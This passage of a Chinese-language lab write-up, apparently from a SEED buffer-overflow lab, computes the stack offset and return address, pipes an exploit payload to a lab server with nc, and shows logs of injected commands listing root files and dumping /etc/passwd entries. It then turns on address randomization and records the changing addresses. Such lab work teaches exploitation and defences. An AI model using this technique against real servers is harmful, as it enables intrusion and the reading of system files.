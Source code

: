 
其中，

- ret 取一个较大的值，在 $$1184$$ 到 $$1424$$ 之间
- $$\text{offset}=$$`0x00007fffffffe700`$$-$$`0x00007fffffffe6a0`$$+8$$

然后执行

```shell
./exploit.py
cat badfile | nc 10.9.0.8 9090
```

得到了结果

```plaintext
server-4-10.9.0.8 | Got a connection from 10.9.0.1
server-4-10.9.0.8 | Starting stack
server-4-10.9.0.8 | Input size: 517
server-4-10.9.0.8 | Frame Pointer (rbp) inside bof(): 0x00007fffffffe700
server-4-10.9.0.8 | Buffer's address inside bof ():   0x00007fffffffe6a0
server-4-10.9.0.8 | total 148
server-4-10.9.0.8 | -rw------- 1 root root 380928 Jul 10 17:27 core
server-4-10.9.0.8 | -rw------- 1 root root  17880 Jul 15 08:41 stack
server-4-10.9.0.8 | -rw------- 1 root root  17064 Jul 15 08:41 stack
server-4-10.9.0.8 | Hello 64
server-4-10.9.0.8 | gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
server-4-10.9.0.8 | nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
server-4-10.9.0.8 | _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
server-4-10.9.0.8 | seed:x:1000:1000::/home/seed:/bin/bash
```

## Task 6: Experimenting with the Address Randomization

打开地址随机化

```shell
sudo sysctl -w kernel.randomize_va_space=2
```

各执行两次如下命令

```shell
$ echo hello | nc 10.9.0.5 9090
^C
$ echo hello | nc 10.9.0.7 9090
^C
```

得到结果

```plaintext
server-1-10.9.0.5 | Got a connection from 10.9.0.1
server-1-10.9.0.5 | Starting stack
server-1-10.9.0.5 | Input size: 6
server-1-10.9.0.5 | Frame Pointer (rbp) inside bof(): 0xfff298a8
server-1-10.9.0.5 | Buffer's address inside bof ():   0xfff29838
server-1-10.9.0.5 | ==== Returned Properly ====
server-1-10.9.0.5 | Got a connection from 10.9.0.1
server-1-10.9.0.5 | Starting stack
server-1-10.9.0.5 | Input size: 6
server-1-10.9.0.5 | Frame Pointer (rbp) inside bof(): 0xff8c1e48
server-1-10.9.0.5 | Buffer's address inside bof ():   0xff8c1dd8
server-1-10.9.0.5 | ==== Returned Properly ====
server-3-10.9.0.7 | Got a connection from 10.9.0.1
server-3-10.9.0.7 | Starting stack
server-3-10.9.0.7 | Input size: 6
server-3-10.9.0.7 | Frame Pointer (rbp) inside bof(): 0x00007ffda5ad00b0
server-3-10.9.0.7 | Buffer's address inside bof ():   0x00007ffda5acffe0
```